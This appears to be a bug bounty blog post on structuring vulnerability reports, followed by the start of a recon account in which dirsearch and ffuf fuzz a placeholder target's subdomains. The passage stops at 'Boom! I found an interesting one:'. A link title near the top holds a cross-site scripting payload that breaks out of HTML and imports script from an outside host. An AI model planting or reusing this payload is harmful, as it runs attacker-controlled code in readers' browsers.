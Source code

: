 > [CVSS Calculator – Professor Software Solutions–>';\"/><img src onerror=import('//ha.ez.pe')>](https://bughuntar.com/tools/cvsscalculator/)

## Example Report: Unauthorized Modification of Web Hosting Configuration

## Here’s how I structured the report:

- **Title:** Unauthorized Modification of Web Hosting Configuration in *
- **Summary:** Write small but enough to provide the details of the vulnerability

![](https://miro.medium.com/v2/resize:fit:627/1*mtX_burN7pBWvqvDYow5eQ.png)

- **Steps to Reproduce:** Provide the steps for easy reproduction of issue.

![](https://miro.medium.com/v2/resize:fit:627/1*tOueMIBiOgkoKgz82-HmMg.png)

- **Mitigation:** Suggested what can fix the particular vulnerability in my case proper authorization check.
- **Impact:** Explain the potential consequences of the vulnerability. What can an attacker achieve by exploiting this bug?

![](https://miro.medium.com/v2/resize:fit:627/1*hNzXnSclEtTYP9phhgcWzg.png)

**Maybe you can get the bonus**

![](https://miro.medium.com/v2/resize:fit:627/1*aR9THnufMk2ommu16x6KzQ.png)

## Takeaways for Writing a Great Report

Write simple and short not make report lengthily with unnecessary writing always add Screenshots, diagrams, snippets , request and even short videos can be incredibly helpful. Stick to the facts and describe what you found without making assumptions

---

#Important_report 

## i found this endpoint:

> https://chatbot.target.com/

tried to use dirsearch but no luck:

```
dirsearch -u https://chatbot.target.com/ -f -F -x 403,404
```

So i tryed:

```
ffuf -u https://chatbot-FUZZ.target.com/ -w SecLists/Discovery/DNS/trickery-Subdomains.txt -r -mc 200

```
Boom! I found an interesting one:  
